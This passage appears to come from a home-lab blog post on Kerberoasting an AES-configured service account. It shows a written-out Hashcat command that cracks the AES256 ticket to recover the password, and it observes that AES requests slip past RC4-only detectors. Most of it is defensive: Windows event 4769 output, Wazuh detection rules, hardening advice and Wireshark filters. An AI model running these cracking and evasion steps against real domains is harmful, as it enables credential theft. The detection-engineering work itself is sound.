The KDC selects the service-ticket encryption type from the intersection of the client's requested types, the service account's available keys and configured encryption support, and KDC or domain policy. The attacker can influence the request but cannot force the KDC to issue an encryption type for which the target and policy provide no usable key. WS02_User is configured for AES through msDS-SupportedEncryptionTypes 0x18, so the RC4-oriented request failed with KDC_ERR_ETYPE_NOSUPP. Orpheus succeeded by requesting the supported AES256 eType 18. The resulting $krb5tgs$18$ material can still be attacked with an offline wordlist, but it requires a different cracking mode and is substantially more expensive to test than RC4. It also bypasses a detector that watches only for Ticket Encryption Type 0x17.
I used Hashcat mode 19700 for the AES256 TGS-REP and cracked the hash. The John build installed on KALI lists krb5tgs as TGS eType 23 only; its separate krb5-18 format is for Kerberos database material, not a $krb5tgs$18$ artifact.
hashcat -m 19700 spns.txt /usr/share/wordlists/rockyou.txt --force

Password is Password123 (still).
What Does DC01 See?
Get-WinEvent -FilterHashtable @{
LogName = 'Security'
Id = 4769
StartTime = (Get-Date).AddMinutes(-15)
} | Format-List *
TimeCreated : 9/2/2026 12:57:01 AM
Message : A Kerberos service ticket was requested.
Account Information:
Account Name: TEST_USER1@CORP.LOCAL
Account Domain: CORP.LOCAL
Logon GUID: {9525e3e4-fb93-ba10-3dbd-a094729eaa9f}
MSDS-SupportedEncryptionTypes: N/A
Available Keys: N/A
Service Information:
Service Name: WS02_User
Service ID: S-1-5-21-953532086-3771123788-3498657558-4602
MSDS-SupportedEncryptionTypes: 0x18 (AES128-SHA96, AES256-SHA96)
Available Keys: AES-SHA1, RC4
Domain Controller Information:
MSDS-SupportedEncryptionTypes: 0x1F (DES, RC4, AES128-SHA96, AES256-SHA96)
Available Keys: AES-SHA1, RC4
Network Information:
Client Address: ::ffff:10.10.10.30
Client Port: 59760
Advertized Etypes: AES256-CTS-HMAC-SHA1-96
Additional Information:
Ticket Options: 0x40810010
Ticket Encryption Type: 0x12
Session Encryption Type: 0x12
Failure Code: 0x0
Transited Services: -
Ticket Information:
Request ticket hash: 4BEyDAKFbYg4DgRVbHnfABp3cs/V9jSPadEC9E+0yO0=
Response ticket hash: emiRyamF6OuTN9ydmldZUctugEhoLrJrMvM3Rik14pg=
This event is generated every time access is requested to a resource such as a computer or Windows service. The service name indicates the resource to which access was requested.
This event can be correlated with Windows logon events by comparing the Logon GUID fields. The logon event occurs on the accessed machine, which is often different from the domain controller that issued the service ticket.
Pre-authentication types, ticket options, encryption types, and result codes are defined in RFC 4120.
- Ticket Options: 0x40810010 - Forwardable, Renewable, Canonicalize, Renewable-ok
- This captured request advertised only
AES256-CTS-HMAC-SHA1-96. Normal Windows requests sampled in this lab usually advertised a broader ordered set, but the exact set depends on client, account keys, and policy. A single advertised type is useful context, not standalone tool attribution.
What Does the SIEM See?

The first version chained rule 100400 to built-in rule 60106. The event reached archives.json with every required field, but the custom rule did not fire. The cause was Wazuh rule traversal. Built-in child rule 92651 matched the IPv4 portion of ::ffff:10.10.10.30 and discarded the event at level 0 before the later custom child was evaluated.
Changing the custom anchor to the broader Windows group avoids that built-in child branch:
<group name="windows,kerberos,kerberoasting,">
<rule id="100400" level="3">
<if_group>windows</if_group>
<field name="win.system.eventID">^4769$</field>
<field name="win.eventdata.status">^0x0$</field>
<field name="win.eventdata.serviceName" negate="yes" type="pcre2">(?i)(\$$|^krbtgt$)</field>
<description>Kerberos TGS requested for user service account $(win.eventdata.serviceName) by $(win.eventdata.targetUserName)</description>
<mitre><id>T1558.003</id></mitre>
<group>kerberoast_tgs,</group>
</rule>
<rule id="100401" level="10">
<if_sid>100400</if_sid>
<field name="win.eventdata.ticketEncryptionType">^0x17$</field>
<description>Possible Kerberoasting (RC4): RC4 ticket for user SPN $(win.eventdata.serviceName) requested by $(win.eventdata.targetUserName) from $(win.eventdata.ipAddress)</description>
<mitre><id>T1558.003</id></mitre>
<group>kerberoast_rc4,</group>
</rule>
<rule id="100402" level="12" frequency="4" timeframe="15">
<if_matched_sid>100400</if_matched_sid>
<same_field>win.eventdata.targetUserName</same_field>
<different_field>win.eventdata.serviceName</different_field>
<description>Possible Kerberoasting (burst): $(win.eventdata.targetUserName) requested 4+ distinct user service tickets within 15s from $(win.eventdata.ipAddress)</description>
<mitre><id>T1558.003</id></mitre>
<group>kerberoast_burst,</group>
</rule>
</group>
After the corrected file passed wazuh-analysisd -t and the manager restarted healthy, a fresh service-ticket request produced:
2026-09-02T01:46:58.076-0700
Rule: 100400, level 3
Requester: TEST_USER1@CORP.LOCAL
Service account: WS02_User
Ticket encryption: 0x12, AES256
Source: ::ffff:10.10.10.30
100400fired because this was a successful 4769 for the user-backed service accountWS02_User.100401correctly stayed silent because the KDC issued AES2560x12, not RC40x17.100402correctly stayed silent because this test requested one service account, not four distinct accounts inside 15 seconds.
The single advertised AES256 algorithm is useful context because normal Windows samples in this lab usually advertise a broader named set. It is not enough to attribute the request to Orpheus. The same fields can vary with tool version and request settings, so attribution needs another evidence source or a broader negative-control study.
How To Prevent It From Happening
The goal is to reduce exposed accounts and make returned ticket material impractical to crack. Remove unused SPNs, avoid running services under ordinary human accounts, use long random and regularly rotated secrets for remaining service accounts, and eliminate RC4 dependencies.
Bonus: What Does Wireshark See?
The Windows 4769 event and Wazuh alert show what the KDC recorded. A packet capture shows the actual TGS exchange between KALI and DC01. For this rerun I am capturing both UDP and TCP port 88 because Kerberos can use either transport.
Open the PCAP in Wireshark and begin with a narrow conversation filter:
kerberos && ip.addr == 10.10.10.30 && ip.addr == 10.10.10.11
Then isolate the service-ticket exchange:
kerberos.msg_type == 12 || kerberos.msg_type == 13


The yellow Missing keytype 18 usage 8 or 9 highlight is Wireshark Expert Information. Wireshark sees AES256-encrypted data but does not possess the required Kerberos key or session key to decrypt it. That is expected and does not mean the packet is malformed or the request failed.
What to look for on the wire:
- A TGS-REQ from
10.10.10.30to10.10.10.11for the service account shown in the capture ascorp.local\WS02_User - A matching successful TGS-REP from DC01
- Decimal eType
18in the returned service ticket, matching Event 4769 value0x12 - The encrypted service-ticket cipher that Orpheus exports as
$krb5tgs$18$ - No
KDC_ERR_ETYPE_NOSUPPin the successful AES run
The PCAP proves that a service ticket was requested and issued with AES256. It does not prove that the password was cracked, that Orpheus was the specific client, or that the request was malicious. The tool output proves the hash artifact was extracted, Hashcat proves the password guess succeeded, Event 4769 identifies the requester and source, and Wazuh records the detection. Those artifacts together tell the complete story.